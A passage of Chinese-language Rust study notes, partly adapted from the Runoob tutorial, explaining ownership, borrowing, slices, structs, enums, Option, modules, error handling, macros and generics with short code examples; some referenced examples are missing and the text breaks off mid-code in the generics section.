apply_operation 函数执行 square(num)，即计算 5 的平方，并将结果返回给 result 变量。
最后程序会输出Square of 5 is 25
RUST所有权¶
Abstract
计算机程序必须在运行时管理它们所使用的内存资源。
大多数的编程语言都有管理内存的功能：
C/C++ 这样的语言主要通过手动方式管理内存，开发者需要手动的申请和释放内存资源。但为了提高开发效率，只要不影响程序功能的实现，许多开发者没有及时释放内存的习惯。所以手动管理内存的方式常常造成资源浪费。
Java 语言编写的程序在虚拟机（JVM）中运行，JVM 具备自动回收内存资源的功能。但这种方式常常会降低运行时效率，所以 JVM 会尽可能少的回收资源，这样也会使程序占用较大的内存资源。
所有权对大多数开发者而言是一个新颖的概念，它是 Rust 语言为高效使用内存而设计的语法机制。所有权概念是为了让 Rust 在编译阶段更有效地分析内存资源的有用性以实现内存管理而诞生的概念。
所有权规则
- Rust 中的每个值都有一个变量，称为其所有者。
- 一次只能有一个所有者。
- 当所有者不在程序运行范围时，该值将被删除。
变量范围
变量范围是变量的一个属性，其代表变量的可行域，默认从声明变量开始有效直到变量所在域结束。
内存和分配¶
如果我们定义了一个变量并给它赋予一个值，这个变量的值存在于内存中。这种情况很普遍。但如果我们需要储存的数据长度不确定（比如用户输入的一串字符串），我们就无法在定义时明确数据长度，也就无法在编译阶段令程序分配固定长度的内存空间供数据储存使用。（有人说分配尽可能大的空间可以解决问题，但这个方法很不文明）。这就需要提供一种在程序运行时程序自己申请使用内存的机制————堆。
有分配就有释放，程序不能一直占用某个内存资源。因此决定资源是否浪费的关键因素就是资源有没有及时的释放。
例如在C语言中
很显然，Rust 中没有调用 free 函数来释放字符串 s 的资源（我们知道这样在 C 语言中是不正确的写法，因为 "abcd" 不在堆中，这里假设它在）。Rust 之所以没有明示释放的步骤是因为在变量范围结束的时候，Rust 编译器自动添加了调用释放资源函数的步骤。
这种机制看似很简单了：它不过是帮助程序员在适当的地方添加了一个释放资源的函数调用而已。但这种简单的机制可以有效地解决一个史上最令程序员头疼的编程问题。
变量与数据交互的方式¶
变量与数据交互的方式有两种:移动（move）和克隆（clone）两种
移动：
多个变量可以在rust中以不同的方式与相同的数据交互
这个程序将值 5 绑定到变量 x，然后将 x 的值复制并赋值给变量 y。现在栈中将有两个值 5。此情况中的数据是"基本数据"类型的数据，不需要存储到堆中，仅在栈中的数据的"移动"方式是直接复制，这不会花费更长的时间或更多的存储空间。"基本数据"类型有这些：- 所有整数类型，例如 i32 、 u32 、 i64 等。
- 布尔类型 bool，值为 true 或 false 。
- 所有浮点类型，f32 和 f64。
- 字符类型 char。
- 仅包含以上类型数据的元组（Tuples）
但如果发生交互的数据在堆中就是另外一种情况
第一步产生一个 String 对象，值为 "hello"。其中 "hello" 可以认为是类似于长度不确定的数据，需要在堆中存储。
第二步：两个 String 对象在栈中，每个 String 对象都有一个指针指向堆中的 "hello" 字符串。在给 s2 赋值时，只有栈中的数据被复制了，堆中的字符串依然还是原来的字符串。
前面我们说过，当变量超出范围时，Rust 自动调用释放资源函数并清理该变量的堆内存。但是 s1 和 s2 都被释放的话堆区中的 "hello" 被释放两次，这是不被系统允许的。为了确保安全，在给 s2 赋值时 s1 已经无效了。没错，在把 s1 的值赋给 s2 以后 s1 将不可以再被使用。
这段程序是错的，在给s2赋值之后，s1已经名存实亡了
克隆
Rust会尽可能地降低程序的运行成本，所以默认情况下，长度较大的数据存放在堆中，且采用移动的方式进行数据交互。但如果需要将数据单纯的复制一份以供他用，可以使用数据的第二种交互方式——克隆。
实例
fn main() {
let s1 = String::from("hello");
let s2 = s1.clone();
println!("s1 = {}, s2 = {}", s1, s2);
}
当然，克隆仅在需要复制的情况下使用，毕竟复制数据会花费更多的时间。
涉及函数的所有权机制¶
对于变量来说这是最复杂的情况了
如果将一个变量当作函数的参数传递给其他函数，怎么样安全的处理所有权呢？
实例
fn main() {
let s = String::from("hello");
// s 被声明有效
takes_ownership(s);
// s 的值被当作参数传入函数
// 所以可以当作 s 已经被移动，从这里开始已经无效
let x = 5;
// x 被声明有效
makes_copy(x);
// x 的值被当作参数传入函数
// 但 x 是基本类型，依然有效
// 在这里依然可以使用 x 却不能使用 s
} // 函数结束, x 无效, 然后是 s. 但 s 已被移动, 所以不用被释放
fn takes_ownership(some_string: String) {
// 一个 String 参数 some_string 传入，有效
println!("{}", some_string);
} // 函数结束, 参数 some_string 在这里释放
fn makes_copy(some_integer: i32) {
// 一个 i32 参数 some_integer 传入，有效
println!("{}", some_integer);
} // 函数结束, 参数 some_integer 是基本类型, 无需释放
引用与租借¶
引用类似于C语言中的指针，实质上是变量的间接访问方式
例如
fn main() {
let s1 = String::from("hello");
let s2 = &s1;//& 运算符可以取变量的"引用"。
println!("s1 is {}, s2 is {}", s1, s2);
}
运行结果
s1 is hello, s2 is hello
这样就保留了s1的所有权
Note
当一个变量的值被引用时，变量本身不会被认定无效。因为"引用"并没有在栈中复制变量的值,而是类似于s2多了一个指向s1的指针
通过借用，可以避免函数丢失所有权
运行结果Warning
引用不会获得值的所有权。
引用只能租借（Borrow）值的所有权。
引用本身也是一个类型并具有一个值，这个值记录的是别的值所在的位置，但引用不具有所指值的所有权：
这段程序不正确：因为s2 租借的 s1 已经将所有权移动到 s3，所以 s2 将无法继续租借使用 s1 的所有权。如果需要使用 s2 使用该值，必须重新租借.
既然引用不具有所有权，即使它租借了所有权，它也只享有使用权（这跟租房子是一个道理）。 如果尝试利用租借来的权利来修改数据会被阻止：
fn main() {
let s1 = String::from("run");
let s2 = &s1;
println!("{}", s2);
s2.push_str("oob"); // 错误，禁止修改租借的值
println!("{}", s2);
}
当然，也存在一种可变的租借方式，就像你租一个房子，如果物业规定房主可以修改房子结构，房主在租借时也在合同中声明赋予你这种权利，你是可以重新装修房子的：
fn main() {
let mut s1 = String::from("run");
// s1 是可变的
let s2 = &mut s1;
// s2 是可变的引用
s2.push_str("oob");
println!("{}", s2);
}
&mut 修饰可变的引用类型。
可变引用与不可变引用相比除了权限不同以外，可变引用不允许多重引用，但不可变引用可以：
这也很好理解，万一r1 r2并发改变了s,如何处理会是一个棘手的问题，rust在编译阶段就避免了这种情况的发生
垂悬引用¶
类似于C语言中那种那种没有实际指向一个真正能访问的数据的指针(不一定是空指针，也有可能是已经释放的资源)，它们就像失去悬挂物体的绳子，所以叫"垂悬引用"
然而这种引用在rust中并不允许出现，编译器会发现这种引用并加以阻止
rust
fn main() {
let reference_to_nothing = dangle();
}
fn dangle() -> &String {
let s = String::from("hello");
&s
}
很显然，伴随着 dangle 函数的结束，其局部变量的值本身没有被当作返回值，被释放了。但它的引用却被返回，这个引用所指向的值已经不能确定的存在，故不允许其出现。
切片类型¶
切片（Slice）是对数据值的部分引用。
切片这个名字往往出现在生物课上，我们做样本玻片的时候要从生物体上获取切片，以供在显微镜上观察。在 Rust 中，切片的意思大致也是这样，只不过它从数据取材引用。
rust中的切片与python中的数组切片也是类似的
最简单、最常用的数据切片类型是字符串切片（String Slice），其他类型如数组切片也是允许的
fn main() {
let s = String::from("broadcast");
let part1 = &s[0..5];
let part2 = &s[5..9];
println!("{}={}+{}", s, part1, part2);
let arr = [1, 3, 5, 7, 9];
let part = &arr[0..3];
for i in part.iter() {
println!("{}", i);
}
}
rust中有x..y来实现\([x,y)\)的含义
- ..y 等价于 0..y
- x.. 等价于位置 x 到数据结束
- .. 等价于位置 0 到结束
被切片引用的字符串禁止更改其值：
实例
fn main() {
let mut s = String::from("runoob");
let slice = &s[0..3];
s.push_str("yes!"); // 错误
println!("slice = {}", slice);
}
s 被部分引用，禁止更改其值。
String和str
实际上，到目前为止你一定疑惑为什么每一次使用字符串都要这样写String::from("runoob") ，直接写 "runoob" 不行吗？
前面也有提到过，但是这里可以更加细致的说明一下
在 Rust 中有两种常用的字符串类型：str 和 String。str 是 Rust 核心语言类型，就是本章一直在讲的字符串切片（String Slice），常常以引用的形式出现（&str）。
凡是用双引号包括的字符串常量整体的类型性质都是 &str： let s = "hello"; 这里的 s 就是一个 &str 类型的变量。 String 类型是 Rust 标准公共库提供的一种数据类型，它的功能更完善——它支持字符串的追加、清空等实用的操作。String 和 str 除了同样拥有一个字符开始位置属性和一个字符串长度属性以外还有一个容量（capacity）属性。 String 和 str 都支持切片，切片的结果是 &str 类型的数据。 注意：切片结果必须是引用类型，但开发者必须自己明示这一点:
有一个快速的办法可以将 String 转换成 &str：RUST中的结构体¶
Rust 中的结构体（Struct）与元组（Tuple）都可以将若干个类型不一定相同的数据捆绑在一起形成整体，但结构体的每个成员和其本身都有一个名字，这样访问它成员的时候就不用记住下标了。元组常用于非定义的多值传递，而结构体用于规范常用的数据结构。结构体的每个成员叫做"字段"。
先给出一个结构体的例子
C语言中的
Warning
跟C语言不同,RUST中 struct 语句仅用来定义，不能声明实例也就是说在}后不能声明一个struct的变量，结尾不需要 ; 符号，而且每个字段定义之后用,分隔。
结构体实例¶
Rust 很多地方受 JavaScript 影响，在实例化结构体的时候用 JSON 对象的 key: value 语法来实现定义，格式为
例如let runoob = Site {
domain: String::from("www.runoob.com"),
name: String::from("RUNOOB"),
nation: String::from("China"),
found: 2013
};
let domain = String::from("www.runoob.com");
let name = String::from("RUNOOB");
let runoob = Site {
domain, // 等同于 domain : domain,
name, // 等同于 name : name,
nation: String::from("China"),
traffic: 2013
};
Note
..runoob 后面不可以有逗号。这种语法不允许一成不变的复制另一个结构体实例，意思就是说至少重新设定一个字段的值才能引用其他实例的值。
元组结构体¶
元组结构体提供了一种更加方便快捷的定义和使用结构体的方式
struct Color(u8, u8, u8);
struct Point(f64, f64);
let black = Color(0, 0, 0);
let origin = Point(0.0, 0.0);
black.0
结构体所有权:结构体必须掌握字段值所有权，因为结构体失效的时候会释放所有字段。 引用结构体成员给其他变量赋值时，要注意：所有权的转移可能会破坏结构体变量的完整性。例如：
struct Dog {
name: String,
age: i8
}
fn main() {
let mydog = Dog {
name:String::from("wangcai"),
age:3,
};
let str = mydog.name;
println!("str={}", str);
println!("mydog: name={},age={}", mydog.name, mydog.age);
}
11 | let str = mydog.name;
| ---------- value moved here
12 | println!("str={}", str);
13 | println!("mydog: name={},age={}", mydog.name, mydog.age);
| ^^^^^^^^^^ value borrowed here after move
11行，用mydog.name给str赋值时，所有权就move到的str变量。
13行，打印时引用mydog.name，此时已经不存在，无法再使用。
11行应该改为:
let str = mydog.name.clone();
clone()会创建mydog.name的一个副本。
输出结构体
调试中，完整地显示出一个结构体实例是非常有用的。但如果我们手动的书写一个格式会非常的不方便。所以 Rust 提供了一个方便地输出一整个结构体的方法：
Example
#[derive(Debug)]
struct Rectangle {
width: u32,
height: u32,
}
fn main() {
let rect1 = Rectangle { width: 30, height: 50 };
println!("rect1 is {:?}", rect1);
}
#[derive(Debug)] ，之后在 println 和 print 宏中就可以用 {:?} 占位符输出一整个结构体：
如果属性较多的话可以使用另一个占位符 {:#?} 。
结构体方法¶
方法（Method）和函数（Function）类似，只不过它是用来操作结构体实例的。
如果你学习过一些面向对象的语言，那你一定很清楚函数一般放在类定义里并在函数中用 this 表示所操作的实例。
Rust 语言不是面向对象的，从它所有权机制的创新可以看出这一点。但是面向对象的珍贵思想可以在 Rust 实现。
结构体方法的第一个参数必须是 &self，不需声明类型，因为 self 不是一种风格而是关键字。
struct Rectangle {
width: u32,
height: u32,
}
impl Rectangle {
fn area(&self) -> u32 {
self.width * self.height
}
fn wider(&self, rect: &Rectangle) -> bool {
self.width > rect.width
}
}
fn main() {
let rect1 = Rectangle { width: 30, height: 50 };
let rect2 = Rectangle { width: 40, height: 20 };
println!("{}", rect1.wider(&rect2));
}
Info
定义了一个表示矩形的Rectangle结构体，并实现了两个方法：area和wider。接着在main函数中创建两个矩形实例，并调用wider方法来比较它们的宽度。以下是详细解释：
Rectangle结构体-
这段代码定义了一个结构体
Rectangle，它有两个字段：width（宽度）和height（高度），都是u32类型的无符号32位整数。 -
impl Rectangle块 -
impl Rectangle块定义了两个方法，area和wider，它们都属于Rectangle结构体。 -
area方法：fn area(&self) -> u32定义了一个计算矩形面积的方法。self是一个指向调用该方法的矩形实例的引用。self.width * self.height计算并返回矩形的面积。
-
wider方法：fn wider(&self, rect: &Rectangle) -> bool定义了一个比较矩形宽度的方法。- 这个方法接收两个参数：
self表示调用该方法的矩形，rect是另一个用于比较的矩形。 self.width > rect.width判断调用wider方法的矩形是否比传入的矩形更宽，返回一个布尔值。
-
main函数 -
main函数是程序的入口点。 -
let rect1 = Rectangle { width: 30, height: 50 };创建一个宽度为30、高度为50的矩形实例rect1。 -
let rect2 = Rectangle { width: 40, height: 20 };创建另一个宽度为40、高度为20的矩形实例rect2。 -
println!("{}", rect1.wider(&rect2));调用rect1的wider方法，比较它和rect2的宽度，然后将结果打印出来。
运行结果
rect1.wider(&rect2)会返回false，因为rect1的宽度（30）小于rect2的宽度（40）。- 程序将打印出
false。
结构体关联函数¶
之所以"结构体方法"不叫"结构体函数"是因为"函数"这个名字留给了这种函数：它在 impl 块中却没有 &self 参数。
这种函数不依赖实例，但是使用它需要声明是在哪个 impl 块中的。
一直使用的 String::from 函数就是一个"关联函数"。
#[derive(Debug)]
struct Rectangle {
width: u32,
height: u32,
}
impl Rectangle {
fn create(width: u32, height: u32) -> Rectangle {
Rectangle { width, height }
}
}
fn main() {
let rect = Rectangle::create(30, 50);
println!("{:?}", rect);
}
Note
结构体 impl 块可以写几次，效果相当于它们内容的拼接！
结构体可以只作为一种象征而无需任何成员：
我们称这种没有身体的结构体为单元结构体（Unit Struct）。
枚举类¶
RUST中的枚举类可以比较简单地使用 格式为
例如#[derive(Debug)]
enum Book {
Papery, Electronic
}
fn main() {
let book = Book::Papery;
println!("{:?}", book);
}
如果你正在开发一个图书管理系统，你需要描述书的两种不同的属性(纸质书有索引号，电子书有URL)，那么可以为枚举类的成员添加元组属性描述,如果要为属性命名,可以用结构体的语法
enum Book {
Papery { index: u32 },
Electronic { url: String },
}
let book = Book::Papery{index: 1001};
Match语法
枚举的目的是对某一类事物的分类，分类的目的是为了对不同的情况进行描述。基于这个原理，往往枚举类最终都会被分支结构处理（许多语言中的 switch ）。 switch 语法很经典，但在 Rust 中并不支持，很多语言摒弃 switch 的原因都是因为 switch 容易存在因忘记添加 break 而产生的串接运行问题，Java 和 C# 这类语言通过安全检查杜绝这种情况出现。
Rust 通过 match 语句来实现分支结构。
fn main() {
enum Book {
Papery {index: u32},
Electronic {url: String},
}
let book = Book::Papery{index: 1001};
let ebook = Book::Electronic{url: String::from("url...")};
match book {
Book::Papery { index } => {
println!("Papery book {}", index);
},
Book::Electronic { url } => {
println!("E-book {}", url);
}
}
}
match 块也可以当作函数表达式来对待，它也是可以有返回值的
但是所有返回值表达式的类型必须一样！
如果把枚举类附加属性定义成元组，在 match 块中需要临时指定一个名字：
enum Book {
Papery(u32),
Electronic {url: String},
}
let book = Book::Papery(1001);
match book {
Book::Papery(i) => {
println!("{}", i);
},
Book::Electronic { url } => {
println!("{}", url);
}
}
对非枚举类进行分支选择时必须注意处理例外情况，即使在例外情况下没有任何要做的事 . 例外情况用下划线 _ 表示：
Option 枚举类¶
Option 是 Rust 标准库中的枚举类，这个类用于填补 Rust 不支持 null 引用的空白。
许多语言支持 null 的存在（C/C++、Java），这样很方便，但也制造了极大的问题，null 的发明者也承认这一点，"一个方便的想法造成累计 10 亿美元的损失"。
null 经常在开发者把一切都当作不是 null 的时候给予程序致命一击：毕竟只要出现一个这样的错误，程序的运行就要彻底终止。
为了解决这个问题，很多语言默认不允许 null，但在语言层面支持 null 的出现（常在类型前面用 ? 符号修饰）。
Java 默认支持 null，但可以通过 @NotNull 注解限制出现 null，这是一种应付的办法。
Rust 在语言层面彻底不允许空值 null 的存在，但无奈null 可以高效地解决少量的问题，所以 Rust 引入了 Option 枚举类：
如果你想针对 opt 执行某些操作，你必须先判断它是否是 Option::None：
fn main() {
let opt = Option::Some("Hello");
match opt {
Option::Some(something) => {
println!("{}", something);
},
Option::None => {
println!("opt is nothing");
}
}
}
如果你的变量刚开始是空值，你体谅一下编译器，它怎么知道值不为空的时候变量是什么类型的呢？
所以初始值为空的 Option 必须明确类型：
fn main() {
let opt: Option<&str> = Option::None;
match opt {
Option::Some(something) => {
println!("{}", something);
},
Option::None => {
println!("opt is nothing");
}
}
}
Info
这种设计会让空值编程变得不容易，但这正是构建一个稳定高效的系统所需要的。由于 Option 是 Rust 编译器默认引入的，在使用时可以省略 Option:: 直接写 None 或者 Some()。
Option 是一种特殊的枚举类，它可以含值分支选择：
if-let语法¶
下面这段程序用于判断一个变量是否为0
使用if-let语法可以对它进行缩短
if-let语法的格式如下
Note
if let 语法可以认为是只区分两种情况的 match 语句的"语法糖"（语法糖指的是某种语法的原理相同的便捷替代品）。
可以在之后添加一个 else 块来处理例外情况。
fn main() {
enum Book {
Papery(u32),
Electronic(String)
}
let book = Book::Electronic(String::from("url"));
if let Book::Papery(index) = book {
println!("Papery {}", index);
} else {
println!("Not papery book");
}
}
组织管理¶
我没太懂这个是要干嘛，直接抄的菜鸟教程
任何一门编程语言如果不能组织代码都是难以深入的，几乎没有一个软件产品是由一个源文件编译而成的。
到目前为止所有的程序都是在一个文件中编写的，主要是为了方便学习 Rust 语言的语法和概念。
对于一个工程来讲，组织代码是十分重要的。
Rust 中有三个重要的组织概念：箱、包、模块。
箱(Crate)
"箱"是二进制程序文件或者库文件，存在于"包"中。
"箱"是树状结构的，它的树根是编译器开始运行时编译的源文件所编译的程序。
Note
注意："二进制程序文件"不一定是"二进制可执行文件"，只能确定是是包含目标机器语言的文件，文件格式随编译环境的不同而不同.
包(Package)
当我们使用 Cargo 执行 new 命令创建 Rust 工程时，工程目录下会建立一个 Cargo.toml 文件。工程的实质就是一个包，包必须由一个 Cargo.toml 文件来管理，该文件描述了包的基本信息以及依赖项。
一个包最多包含一个库"箱"，可以包含任意数量的二进制"箱"，但是至少包含一个"箱"（不管是库还是二进制"箱"）。
当使用 cargo new 命令创建完包之后，src 目录下会生成一个 main.rs 源文件，Cargo 默认这个文件为二进制箱的根，编译之后的二进制箱将与包名相同。
模块（Module） 对于一个软件工程来说，我们往往按照所使用的编程语言的组织规范来进行组织，组织模块的主要结构往往是树。Java 组织功能模块的主要单位是类，而 JavaScript 组织模块的主要方式是 function。
这些先进的语言的组织单位可以层层包含，就像文件系统的目录结构一样。Rust 中的组织单位是模块（Module）。
mod nation {
mod government {
fn govern() {}
}
mod congress {
fn legislate() {}
}
mod court {
fn judicial() {}
}
}
在文件系统中，目录结构往往以斜杠在路径字符串中表示对象的位置，Rust 中的路径分隔符是 :: 。
路径分为绝对路径和相对路径。绝对路径从 crate 关键字开始描述。相对路径从 self 或 super 关键字或一个标识符开始描述。例如：
是描述 govern 函数的绝对路径，相对路径可以表示为： 现在你可以尝试在一个源程序里定义类似的模块结构并在主函数中使用路径。如果你这样做，你一定会发现它不正确的地方：government 模块和其中的函数都是私有（private）的，你不被允许访问它们。
访问权限¶
Rust 中有两种简单的访问权：公共（public）和私有（private）。
默认情况下，如果不加修饰符，模块中的成员访问权将是私有的。
如果想使用公共权限，需要使用 pub 关键字。
对于私有的模块，只有在与其平级的位置或下级的位置才能访问，不能从其外部访问。
mod nation {
pub mod government {
pub fn govern() {}
}
mod congress {
pub fn legislate() {}
}
mod court {
fn judicial() {
super::congress::legislate();
}
}
}
fn main() {
nation::government::govern();
}
如果模块中定义了结构体，结构体除了其本身是私有的以外，其字段也默认是私有的。所以如果想使用模块中的结构体以及其字段，需要 pub 声明：
mod back_of_house {
pub struct Breakfast {
pub toast: String,
seasonal_fruit: String,
}
impl Breakfast {
pub fn summer(toast: &str) -> Breakfast {
Breakfast {
toast: String::from(toast),
seasonal_fruit: String::from("peaches"),
}
}
}
}
pub fn eat_at_restaurant() {
let mut meal = back_of_house::Breakfast::summer("Rye");
meal.toast = String::from("Wheat");
println!("I'd like {} toast please", meal.toast);
}
fn main() {
eat_at_restaurant()
}
mod SomeModule {
pub enum Person {
King {
name: String
},
Queen
}
}
fn main() {
let person = SomeModule::Person::King{
name: String::from("Blue")
};
match person {
SomeModule::Person::King {name} => {
println!("{}", name);
}
_ => {}
}
}
难以发现的模块¶
使用过 Java 的开发者在编程时往往非常讨厌最外层的 class 块——它的名字与文件名一模一样，因为它就表示文件容器，尽管它很繁琐但我们不得不写一遍来强调"这个类是文件所包含的类"。
不过这样有一些好处：起码它让开发者明明白白的意识到了类包装的存在，而且可以明确的描述类的继承关系。
在 Rust 中，模块就像是 Java 中的类包装，但是文件一开头就可以写一个主函数，这该如何解释呢？
每一个 Rust 文件的内容都是一个"难以发现"的模块。
让我们用两个文件来揭示这一点：
// main.rs
mod second_module;
fn main() {
println!("This is the main module.");
println!("{}", second_module::message());
}
use关键字¶
use 关键字能够将模块标识符引入当前作用域：
mod nation {
pub mod government {
pub fn govern() {}
}
}
use crate::nation::government::govern;
fn main() {
govern();
}
这段程序能够通过编译。
因为 use 关键字把 govern 标识符导入到了当前的模块下，可以直接使用。
这样就解决了局部模块路径过长的问题。
当然，有些情况下存在两个相同的名称，且同样需要导入，我们可以使用 as 关键字为标识符添加别名：
mod nation {
pub mod government {
pub fn govern() {}
}
pub fn govern() {}
}
use crate::nation::government::govern;
use crate::nation::govern as nation_govern;
fn main() {
nation_govern();
govern();
}
这里有两个 govern 函数，一个是 nation 下的，一个是 government 下的，我们用 as 将 nation 下的取别名 nation_govern。两个名称可以同时使用。
use 关键字可以与 pub 关键字配合使用：
mod nation {
pub mod government {
pub fn govern() {}
}
pub use government::govern;
}
fn main() {
nation::govern();
}
然后，我们就可以轻松地导入系统库来开发程序了
错误处理¶
Rust 有一套独特的处理异常情况的机制，它并不像其它语言中的 try 机制那样简单。
首先，程序中一般会出现两种错误：可恢复错误和不可恢复错误。
可恢复错误的典型案例是文件访问错误，如果访问一个文件失败，有可能是因为它正在被占用，是正常的，我们可以通过等待来解决。
但还有一种错误是由编程中无法解决的逻辑错误导致的，例如访问数组末尾以外的位置。
大多数编程语言不区分这两种错误，并用 Exception （异常）类来表示错误。在 Rust 中没有 Exception。
对于可恢复错误用 Result<T, E> 类来处理，对于不可恢复错误使用 panic! 宏来处理。
不可恢复错误¶
不可恢复错误会导致程序受到致命的打击而终止运行
例如
运行结果-
第一行第二行输出了
panic!宏调用的位置以及其输出的错误信息 -
第二行是一句提示第二行是一句提示，翻译成中文就是"通过
RUST_BACKTRACE=1环境变量运行以显示回溯"。
可恢复的错误¶
此概念十分类似于 Java 编程语言中的异常。实际上在 C 语言中我们就常常将函数返回值设置成整数来表达函数遇到的错误，在 Rust 中通过 Result
在 Rust 标准库中可能产生异常的函数的返回值都是 Result 类型的。例如：当我们尝试打开一个文件时：
use std::fs::File;
fn main() {
let f = File::open("hello.txt");
if let Ok(file) = f {
println!("File opened successfully.");
} else {
println!("Failed to open the file.");
}
}
如果想使一个可恢复错误按不可恢复错误处理，Result 类提供了两个办法：unwrap() 和 expect(message: &str) ：
use std::fs::File;
fn main() {
let f1 = File::open("hello.txt").unwrap();
let f2 = File::open("hello.txt").expect("Failed to open.");
}
可恢复的错误的传递¶
之前所讲的是接收到错误的处理方式，但是如果我们自己编写一个函数在遇到错误时想传递出去怎么办呢？
fn f(i: i32) -> Result<i32, bool> {
if i >= 0 { Ok(i) }
else { Err(false) }
}
fn main() {
let r = f(10000);
if let Ok(v) = r {
println!("Ok: f(-1) = {}", v);
} else {
println!("Err");
}
}
我们再写一个传递错误的函数 g ：
fn g(i: i32) -> Result<i32, bool> {
let t = f(i);
return match t {
Ok(i) => Ok(i),
Err(b) => Err(b)
};
}
Rust 中可以在 Result 对象后添加 ? 操作符将同类的 Err 直接传递出去：
fn f(i: i32) -> Result<i32, bool> {
if i >= 0 { Ok(i) }
else { Err(false) }
}
fn g(i: i32) -> Result<i32, bool> {
let t = f(i)?;
Ok(t) // 因为确定 t 不是 Err, t 在这里已经是 i32 类型
}
fn main() {
let r = g(-10000);
if let Ok(v) = r {
println!("Ok: g(10000) = {}", v);
} else {
println!("Err");
}
}
Err
? 符的实际作用是将 Result 类非异常的值直接取出，如果有异常就将异常 Result 返回出去。所以，? 符仅用于返回值类型为 Result
Kind
到此为止，Rust 似乎没有像 try 块一样可以令任何位置发生的同类异常都直接得到相同的解决的语法，但这样并不意味着 Rust 实现不了：我们完全可以把 try 块在独立的函数中实现，将所有的异常都传递出去解决。实际上这才是一个分化良好的程序应当遵循的编程方法：应该注重独立功能的完整性。
但是这样需要判断 Result 的 Err 类型，获取 Err 类型的函数是 kind()。
use std::io;
use std::io::Read;
use std::fs::File;
fn read_text_from_file(path: &str) -> Result<String, io::Error> {
let mut f = File::open(path)?;//首先判断文件是否存在
let mut s = String::new();
f.read_to_string(&mut s)?;//判断是否读取失败
Ok(s)
}
fn main() {
let str_file = read_text_from_file("hello.txt");
match str_file {
Ok(s) => println!("{}", s),
Err(e) => {
match e.kind() {//根据kind分类
io::ErrorKind::NotFound => {
println!("No such file");
},
_ => {
println!("Cannot read the file");
}
}
}
}
}
宏¶
Rust 宏（Macros）是一种在编译时生成代码的强大工具，它允许你在编写代码时创建自定义语法扩展。
宏（Macro）是一种在代码中进行元编程（Metaprogramming）的技术，它允许在编译时生成代码，宏可以帮助简化代码，提高代码的可读性和可维护性，同时允许开发者在编译时执行一些代码生成的操作。
宏在 Rust 中有两种类型：声明式宏（Declarative Macros）和过程宏（Procedural Macros）。
定义宏¶
在 Rust 中，使用 macro_rules! 关键字来定义声明式宏。
主要格式为
声明式宏使用 macro_rules! 关键字进行定义，它们被称为 "macro_rules" 宏。这种宏的定义是基于模式匹配的，可以匹配代码的结构并根据匹配的模式生成相应的代码。这样的宏在不引入新的语法结构的情况下，可以用来简化一些通用的代码模式。
这里有一个简单的例子
Example
// 宏的定义
macro_rules! greet {
// 模式匹配
($name:expr) => {
// 宏的展开
println!("Hello, {}!", $name);
};
}
fn main() {
// 调用宏
greet!("World");
}
定义宏 (macro_rules! greet)
macro_rules! greet 是宏定义的语法。在 Rust 中，宏是一种用于生成代码的机制。
- greet 是宏的名字。
- ($name:expr) 是宏的模式匹配部分。这里匹配一个表达式（expr），并将其绑定到 $name 上。
- => { ... } 是宏的展开部分。当宏被调用时，匹配到的表达式会被插入到这个位置。在这个例子中，它会展开成一条 println! 语句，输出一个带有变量 $name 的字符串。
- 使用宏
fn main()是程序的入口函数。greet!("World");是对宏greet的调用。在调用时，"World"这个字符串字面量会被传递给宏中的$name。
在编译时，宏会被展开成常规代码。对于这段代码来说，greet!("World"); 会展开成：
下面是一个更复杂的例子
Example
// 宏的定义
macro_rules! vec {
// 基本情况，空的情况
() => {
Vec::new()
};
// 递归情况，带有元素的情况
($($element:expr),+ $(,)?) => {
{
let mut temp_vec = Vec::new();
$(
temp_vec.push($element);
)+
temp_vec
}
};
}
fn main() {
// 调用宏
let my_vec = vec![1, 2, 3];
println!("{:?}", my_vec); // 输出: [1, 2, 3]
let empty_vec = vec![];
println!("{:?}", empty_vec); // 输出: []
}
- 定义宏 (
macro_rules! vec)a. 基本情况：空的macro_rules! vec { // 基本情况，空的情况 () => { Vec::new() }; // 递归情况，带有元素的情况 ($($element:expr),+ $(,)?) => { { let mut temp_vec = Vec::new(); $( temp_vec.push($element); )+ temp_vec } }; }Vec - 当宏被调用时，如果没有传递任何参数（即
()），这个模式会匹配。 - 宏将展开为
Vec::new()，它创建并返回一个空的Vec。
b. 递归情况：带有元素的 Vec
($($element:expr),+ $(,)?) => {
{
let mut temp_vec = Vec::new();
$(
temp_vec.push($element);
)+
temp_vec
}
};
- 这个模式匹配一个或多个表达式，表达式之间用逗号分隔。模式中使用了
$($element:expr),+，表示匹配一个或多个表达式。 $(,)?是一个可选的逗号，用于允许在参数列表的末尾加一个逗号。- 该模式的展开部分是一个代码块：
- 创建一个空的
Vec，命名为temp_vec。 - 使用
$(...)+循环，将每个匹配到的表达式（$element）推入到temp_vec中。 -
最终返回这个填充好的
temp_vec。 -
使用宏
-
在
main函数中，宏vec被调用了两次。
a. 创建一个带有元素的 Vec
- 这里的宏调用会匹配第二种情况（递归情况）。
-
宏展开后相当于以下代码：
-
打印时，输出
[1, 2, 3]。
b. 创建一个空的 Vec
- 这里的宏调用会匹配第一种情况（空的情况）。
- 宏展开后相当于
let empty_vec = Vec::new();。 - 打印时，输出
[]。
Rust 泛型与特性¶
泛型是一个编程语言不可或缺的机制
C++语言中用“模板”来实现泛型，而C语言中却没有泛型的机制，这导致使用C语言来构建类型复杂的工程较为困难。
泛型机制是编程语言用于表达类型抽象的机制，一般用于功能确定，数据类型待定的类，例如链表，映射表等等。
在函数中定义泛型¶
fn max(array: &[i32]) -> i32 {
let mut max_index = 0;
let mut i = 1;
while i < array.len() {
if array[i] > array[max_index] {
max_index = i;
}
i += 1;
}
array[max_index]
}
fn main() {
let a = [2, 4, 6, 3, 1];
println!("max = {}", max(&a));
}
这是一个简单的取最大值程序，可以用于处理 i32 数字类型的数据，但无法用于 f64 类型的数据。通过使用泛型我们可以使这个函数可以利用到各个类型中去。但实际上并不是所有的数据类型都可以比大小，所以接下来一段代码并不是用来运行的，而是用来描述一下函数泛型的语法格式：
fn max<T>(array: &[T]) -> T {
let mut max_index = 0;
let mut i = 1;
while i < array.len() {
if array[i] > array[max_index] {
max_index = i;
}
i += 1;
}
array[max_index]
}
结构体与枚举类中的泛型¶
Rust 中的结构体和枚举类都可以实现泛型机制
这是一个点坐标结构体，T 表示描述点坐标的数字类型。我们可以这样使用：
使用时并没有声明类型，这里使用的是自动类型机制，但不允许出现类型不匹配的情况如下：
x 与 1 绑定时就已经将 T 设定为 i32，所以不允许再出现 f64 的类型。如果我们想让 x 与 y 用不同的数据类型表示，可以使用两个泛型标识符：
结构体与枚举类都可以定义方法，那么方法也应该实现泛型的机制，否则泛型的类将无法被有效的方法操作。
struct Point<T> {
x: T,
y: T,
